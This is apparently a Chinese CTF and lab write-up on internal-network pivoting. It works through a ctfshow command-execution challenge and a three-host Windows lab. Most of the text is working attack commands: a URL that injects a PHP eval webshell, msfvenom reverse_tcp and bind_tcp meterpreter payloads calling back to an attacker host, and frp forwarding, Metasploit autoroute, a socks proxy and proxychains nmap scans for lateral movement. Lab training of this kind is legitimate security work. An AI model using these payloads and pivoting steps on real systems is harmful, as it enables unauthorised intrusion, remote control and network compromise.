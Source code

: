 案列一（Frp内网渗透）

这里选用ctfshow的一道命令执行题
由Frp实现内网访问及扫描

1.传入一句话，上线蚁剑
Default
http://b85fdf24-b98e-4810-9e76-a038a8987630.challenge.ctf.show:8080/?c=`echo '<?php eval(\$_POST[1]);?>' > 1.php`;

2.进行frp转发

先服务器启动
Default
./frps -c frps.ini

然后再kali启动
Default
./frpc -c frpc.ini

3.制作linux马上线msf
Default
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=公网ip LPORT=6000 -f  elf > shell.elf

直接拖进去并更改权限为7777

kali开启监听
运行shell
上线成功

4.添加路由
Default
run post/multi/manage/autoroute

5.socks代理转发

我们现在可以看见其内网但无法进行扫描和访问
Default
use auxiliary/server/socks_proxy

执行即可

6.浏览器访问内网

7.nmap扫描内网

进入etc目录，按一下f键进行搜索prox

搜索到proxychains4.conf，使用root权限进去修改此文件
和上面的代理转发相对应
使用nmap
注意：这里必须使用-sT和-Pn扫描，不能对内网进行ping访问而，-sT则是TCP连接扫描
Default
proxychains4 nmap -sT -Pn 172.12.132.230

案列二（CFS三层内网漫游）

这里没有web端，但大概思路是一样的
主机分别为win sever2008、windows7、win sever 2012，ip地址和上面1、2、3对应

1.msf生成木马上线msf（Targer 1）
Default
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.76.1 LPORT=2333 -f  exe > 2333.exe

2.信息收集
Default
ipconfig
route

可以看见我们连接的是76的地址，另一条22应该就是连着下一台内网

3.添加路由
Default
run post/multi/manage/autoroute //自动添加路由
route print

4.开代理（socks）
Default
use auxiliary/server/socks_proxy

设置版本为4a

这里的ip和端口和下面的代理对应（prox）

5.nmap扫一下第二台主机

我这里没有web端，如果是题基本就有，配置一下浏览器即可

这里和上面一样
进入etc目录，按一下f键进行搜索prox
使用root权限进去修改此文件
Default
proxychains4 nmap -Pn -sT -v 192.168.22.128

重点来了（我们以第一个为跳板渗透第二个，因为第二个没有76网段无法收到信息，那如何以第二个为跳板渗透第三个呢）

6.生成正向后门

反向连接木马是攻击机开放端口，靶机连过来；
正向连接木马是靶机开放端口，攻击机连过去；
Default
msfvenom -p windows/meterpreter/bind_tcp  lport=2333 -f exe > bind_2333.exe

7.上线msf
Default
set payload windows/meterpreter/bind_tcp
set rhost 192.168.22.127
set lport 2333

注意ip是目标机器的ip，我们攻击的是第二个主机所以就是第二个的ip
后面的操作和前面差不多了

总结

web端exp打入第一个服务器，上线msf，添加路由，代理等扫描第二个服务器的web网站，浏览器开启代理访问第二个服务器的网站，打入exp，通过正向连接上线msf（因为msf虽然为76网段，但可以通过代理以22网段访问第二个服务器，而第二个服务器则不可以访问76网段）继续添加33网段的路由如果有web端则再。